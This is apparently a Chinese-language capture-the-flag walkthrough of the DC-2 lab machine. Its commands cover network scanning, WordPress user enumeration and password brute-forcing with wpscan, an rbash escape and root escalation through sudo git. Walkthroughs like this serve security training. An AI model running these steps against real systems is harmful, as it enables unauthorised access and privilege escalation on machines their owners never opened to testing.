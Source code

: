 # 端口发现
nmap -sP 192.168.31.0/24
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668255114525-9aa5f05f-6da2-46d7-8d80-b3769c742b22.png#averageHue=%2330333d&clientId=u6a93001b-e849-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=329&id=ubbd7d7aa&margin=%5Bobject%20Object%5D&name=image.png&originHeight=329&originWidth=1106&originalType=binary&ratio=1&rotation=0&showTitle=false&size=115369&status=done&style=none&taskId=uce82a46b-73b5-461c-b94a-24fefca6772&title=&width=1106)
nmap -p- -A 192.168.31.144
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668256252734-d004b7c8-f744-4ea9-b0ea-a6ba9cf84efc.png#averageHue=%232d313c&clientId=u6a93001b-e849-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=352&id=u3293de44&margin=%5Bobject%20Object%5D&name=image.png&originHeight=352&originWidth=1154&originalType=binary&ratio=1&rotation=0&showTitle=false&size=116890&status=done&style=none&taskId=uf51187f6-6baa-45cc-a59d-f671e8ddd82&title=&width=1154)
7744 端口是 ssh
# web 突破
访问 80 端口，主页有个提示
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668255307268-8c8dd305-caee-4a59-b445-4304d97e93ea.png#averageHue=%23dcdbda&clientId=u6a93001b-e849-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=802&id=u3fd30245&margin=%5Bobject%20Object%5D&name=image.png&originHeight=802&originWidth=1702&originalType=binary&ratio=1&rotation=0&showTitle=false&size=285571&status=done&style=none&taskId=udedb32de-94db-44f1-a602-2a342b16376&title=&width=1702)
提示说 cewl 生成密码本，上面也写了 wordpress （url 用 http://dc-2，用 http://192.168.31.144 的话生成的密码本是空的）
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668255664286-5d96b412-5e55-424c-b5fd-2561ef8d4508.png#averageHue=%2330343f&clientId=u6a93001b-e849-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=98&id=uc44763b2&margin=%5Bobject%20Object%5D&name=image.png&originHeight=98&originWidth=781&originalType=binary&ratio=1&rotation=0&showTitle=false&size=21984&status=done&style=none&taskId=u3111c50a-a2dc-4308-8f2a-20f570444e1&title=&width=781)
wordpress 可以使用 wpscan 来爆破用户名   wpscan --url http://dc-2 --enumerate u  
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668255474370-27c94f88-0c0f-4375-a4e3-9325abde9c02.png#averageHue=%2330333d&clientId=u6a93001b-e849-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=448&id=u45789031&margin=%5Bobject%20Object%5D&name=image.png&originHeight=448&originWidth=1450&originalType=binary&ratio=1&rotation=0&showTitle=false&size=111870&status=done&style=none&taskId=u6ec94bc1-0a8b-4d60-9455-349f1be8483&title=&width=1450)
爆出三个用户名 admin、jerry、tom
将这三个用户名加入到刚刚的密码本中
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668255636635-bd23235e-53b1-44b2-b1ef-ccde7992f595.png#averageHue=%23242730&clientId=u6a93001b-e849-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=182&id=u78a7f4b9&margin=%5Bobject%20Object%5D&name=image.png&originHeight=182&originWidth=644&originalType=binary&ratio=1&rotation=0&showTitle=false&size=26033&status=done&style=none&taskId=u8259b4b3-bf83-4847-98ee-6b4edb67593&title=&width=644)
使用 wpscan 对靶机进行密码爆破
wpscan --ignore-main-redirect --url http://dc-2 -U 2.txt -P 1.txt --force
_2.txt 是单独的用户名密码本_
爆破成功
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668255911362-787db9e4-6e4a-4f92-a987-dc5501d04d4d.png#averageHue=%23323642&clientId=u6a93001b-e849-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=104&id=u09eb2493&margin=%5Bobject%20Object%5D&name=image.png&originHeight=104&originWidth=434&originalType=binary&ratio=1&rotation=0&showTitle=false&size=10633&status=done&style=none&taskId=uefffd171-7f12-4a4b-8755-b8b76dda4b8&title=&width=434)
尝试 ssh 连接
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668255988306-f5c8485e-7256-4c1e-b9f4-463cb99a314d.png#averageHue=%2330343f&clientId=u6a93001b-e849-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=316&id=u34316664&margin=%5Bobject%20Object%5D&name=image.png&originHeight=316&originWidth=974&originalType=binary&ratio=1&rotation=0&showTitle=false&size=93797&status=done&style=none&taskId=u253e6572-76d9-4b65-a7b7-d5d243ebce9&title=&width=974)
输入命令都找不到
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668256304773-3924b468-c5d3-4553-aabf-eec53eb4a845.png#averageHue=%2330343f&clientId=u6a93001b-e849-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=120&id=u821a52e7&margin=%5Bobject%20Object%5D&name=image.png&originHeight=120&originWidth=497&originalType=binary&ratio=1&rotation=0&showTitle=false&size=17363&status=done&style=none&taskId=u3a9a5988-12c8-4a94-9fc2-248daeabdc5&title=&width=497)

# 提权
绕过 rbash
BASH_CMDS[a]=/bin/sh;a
/bin/bash
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668256430568-b9b0be53-6f84-4ddc-a97e-a5ad2c36210d.png#averageHue=%2330333d&clientId=u6a93001b-e849-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=155&id=u697aa1d0&margin=%5Bobject%20Object%5D&name=image.png&originHeight=155&originWidth=598&originalType=binary&ratio=1&rotation=0&showTitle=false&size=23089&status=done&style=none&taskId=u4bf2d4ce-e755-4f27-8a38-aa414ff9bce&title=&width=598)
cat 也不能用
使用并添加环境变量
export PATH=$PATH:/bin/
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668256533531-c50021b4-7be4-42f3-8f1e-94bf1c24a704.png#averageHue=%2331343f&clientId=u6a93001b-e849-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=81&id=u8b047a11&margin=%5Bobject%20Object%5D&name=image.png&originHeight=81&originWidth=880&originalType=binary&ratio=1&rotation=0&showTitle=false&size=17311&status=done&style=none&taskId=ufb1d7eb9-27bb-4909-9e02-b230cc3267c&title=&width=880)
flag3 说 jerry 可能 su 啥的
切换 jerry，密码：adipiscing
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668256736484-e8c451da-c152-40e4-855d-a7dedac49552.png#averageHue=%232f323c&clientId=u6a93001b-e849-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=318&id=u3ee15be4&margin=%5Bobject%20Object%5D&name=image.png&originHeight=318&originWidth=928&originalType=binary&ratio=1&rotation=0&showTitle=false&size=60781&status=done&style=none&taskId=u48a62368-5e8e-428c-ac15-16b41f5c473&title=&width=928)
查看 jerry 的权限 sudo -l
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668256856245-8af677e3-6465-4de1-b30b-068fed33388f.png#averageHue=%2330343e&clientId=u6a93001b-e849-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=143&id=u8a419b9c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=143&originWidth=986&originalType=binary&ratio=1&rotation=0&showTitle=false&size=34093&status=done&style=none&taskId=u189010d6-6849-46f3-98df-29cbfc03350&title=&width=986)
可以免密使用 git 命令
git 提权
sudo git help config
在最下面键入 !/bin/bash
完成提权
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668256944713-5e148dfb-b33a-49f9-9a9c-70ccdeecab0d.png#averageHue=%2331343f&clientId=u6a93001b-e849-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=93&id=u73e27e51&margin=%5Bobject%20Object%5D&name=image.png&originHeight=93&originWidth=530&originalType=binary&ratio=1&rotation=0&showTitle=false&size=16424&status=done&style=none&taskId=uf1a951eb-3f81-4a9c-b811-824ab48062b&title=&width=530)

